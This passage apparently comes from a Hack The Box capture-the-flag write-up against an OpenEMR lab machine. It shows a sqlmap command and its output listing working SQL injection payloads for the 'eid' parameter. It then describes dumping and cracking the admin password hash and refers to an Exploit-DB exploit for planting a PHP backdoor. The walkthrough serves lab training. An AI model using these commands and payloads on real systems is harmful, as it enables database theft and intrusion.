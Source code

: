 ```
# sqlmap --cookie="PHPSESSID=ir5gcqe0i3uceaf0ifie0m8m2c" --dbms=mysql --url=http://hms.htb/portal/add_edit_event_user.php?eid=1 --batch
...
GET parameter 'eid' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:
---
Parameter: eid (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: eid=(SELECT (CASE WHEN (9069=9069) THEN 1 ELSE (SELECT 4613 UNION SELECT 8637) END))

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: eid=1 AND EXTRACTVALUE(2267,CONCAT(0x5c,0x716a7a7a71,(SELECT (ELT(2267=2267,1))),0x7178787871))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: eid=1 AND (SELECT 1732 FROM (SELECT(SLEEP(5)))dBnh)

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: eid=1 UNION ALL SELECT NULL,NULL,CONCAT(0x716a7a7a71,0x49446f6754454d424968747879596b4d4b426e746e73794f71704b756461647a4872635562624d62,0x7178787871),NULL-- -
---
```

The main objective of the SQL injection is to dump out password hash of the OpenEMR administrator like so.

{% include image.html image_alt="4c6a8469.png" image_src="/54f48b6c-2079-418a-8a86-19da8d492067/4c6a8469.png" %}

Notice that the username is `openemr_admin`? Let's throw that password hash to John the Ripper and see what we get.

{% include image.html image_alt="adf15fb9.png" image_src="/54f48b6c-2079-418a-8a86-19da8d492067/adf15fb9.png" %}

Really? The credential is (`openemr_admin:xxxxxx`)??!! There's only one way to find out.

{% include image.html image_alt="7c9b9130.png" image_src="/54f48b6c-2079-418a-8a86-19da8d492067/7c9b9130.png" %}

Sweet!

## Low-Privilege Shell

With that, we can now attempt EDB-ID [45202](https://www.exploit-db.com/exploits/45202) to write a PHP backdoor in Burp.

{% include image.html image_alt="643cfe8c.png" image_src="/54f48b6c-2079-418a-8a86-19da8d492067/643cfe8c.png" %}


[1]: https://www.hackthebox.eu/home/machines/profile/251
[2]: https://www.hackthebox.eu/home/users/profile/23227
[3]: https://www.hackthebox.eu/